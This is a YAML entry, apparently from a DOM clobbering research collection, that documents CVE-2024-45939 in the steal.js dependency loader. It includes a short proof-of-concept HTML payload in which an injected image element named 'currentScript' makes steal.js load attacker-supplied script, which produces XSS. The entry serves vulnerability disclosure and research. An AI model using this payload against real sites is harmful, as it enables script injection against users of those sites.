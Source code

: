 ```yaml
---
description: Futuristic JavaScript dependency loader and builder. Speeds up application load times. Works with ES6, CommonJS, AMD, CSS, LESS and more. Simplifies modular workflows.
github: stealjs/steal
gadgets:
  Latest:
    cve: CVE-2024-45939
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - before-func-call
    pocs:
      - description: The [steal.js](https://github.com/stealjs/steal) library was using `document.currentScript` as a reference to load plugins.
        code: |
          <!-- user input -->
          <image name="currentScript" src="[current-location]/assets/xss/index.js"></image>

          <script nonce="secret" src="/assets/libs/steal/steal.js" main></script>
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
    more-info: |
      TODO
---
```

